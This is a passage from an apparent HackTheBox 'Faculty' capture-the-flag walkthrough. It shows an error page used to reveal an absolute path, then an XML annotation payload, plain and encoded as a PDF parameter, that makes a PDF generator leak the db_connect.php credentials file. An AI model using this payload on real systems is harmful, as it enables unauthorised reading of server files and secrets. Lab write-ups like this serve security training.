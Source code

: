 Tried to trigger an error on the website to get some kind of exception trace with the file or directory and found the following one by adding an empty event on the calendar and inputting some gibberish:


<p align="center">
  <img src="/images/walkthroughs/hackthebox/faculty/5_0_error.png" width="90%"/>
</p>

Now that we can find the absolute path, let's use it to dump the file:

```xml
<annotation file="/var/www/scheduling/admin/db_connect.php" content="/var/www/scheduling/admin/db_connect.php"  icon="Graph" title="Attached File: db_connect.php" pos-x="195" />


PDF=JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL3Zhci93d3cvc2NoZWR1bGluZy9hZG1pbi9kYl9jb25uZWN0LnBocCUyNTIyJTI1MjBjb250ZW50PSUyNTIyL3Zhci93d3cvc2NoZWR1bGluZy9hZG1pbi9kYl9jb25uZWN0LnBocCUyNTIyJTI1MjAlMjUyMGljb249JTI1MjJHcmFwaCUyNTIyJTI1MjB0aXRsZT0lMjUyMkF0dGFjaGVkJTI1MjBGaWxlOiUyNTIwZGJfY29ubmVjdC5waHAlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```
